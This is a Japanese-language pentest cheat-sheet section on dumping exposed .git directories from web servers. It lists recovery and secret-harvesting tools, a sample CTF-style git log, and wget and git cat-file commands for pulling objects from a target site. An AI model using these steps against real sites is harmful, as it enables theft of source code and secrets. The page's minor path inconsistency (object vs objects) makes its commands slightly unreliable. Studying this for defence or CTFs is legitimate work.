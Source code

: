 # Git

## 概要

* [方法論](#方法論)
    * [.git/logs/HEADからファイル内容を回復する](#gitlogsheadからのファイル内容を回復する)
    * [.git/indexからファイル内容を回復する](#gitindexからのファイル内容を回復する)
* [ツール](#ツール)
    * [自動回復](#自動回復)
        * [git-dumper.py](#git-dumperpy)
        * [diggit.py](#diggitpy)
        * [GoGitDumper](#gogitdumper)
        * [rip-git](#rip-git)
        * [GitHack](#githack)
        * [GitTools](#gittools)
    * [シークレット収穫](#シークレット収穫)
        * [noseyparker](#noseyparker)
        * [trufflehog](#trufflehog)
        * [Yar](#yar)
        * [Gitrob](#gitrob)
        * [Gitleaks](#gitleaks)
* [参考文献](#参考文献)

## 方法論

以下の例では、.gitのコピーまたは現在のコミットのコピーを作成します。

次のファイルがあるかどうかを確認し、存在する場合は.gitフォルダを抽出できます。

* `.git/config`
* `.git/HEAD`
* `.git/logs/HEAD`

### .git/logs/HEADからファイル内容を回復する

* `.git/`ディレクトリを発見するために「403 Forbidden」またはディレクトリ一覧表示をチェックします
* Gitはすべての情報を`.git/logs/HEAD`に保存しています（`head`も小文字で試してみてください）

  ```powershell
  0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
  15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
  26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
  6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
  ```

* コミットをハッシュを使用してアクセスする

  ```powershell
  # 空の.gitリポジトリを作成
  git init test
  cd test/.git

  # ファイルをダウンロード
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # 最初のバイトはサブディレクトリ、残りのバイトはファイル名
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # ファイルを表示
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
  ```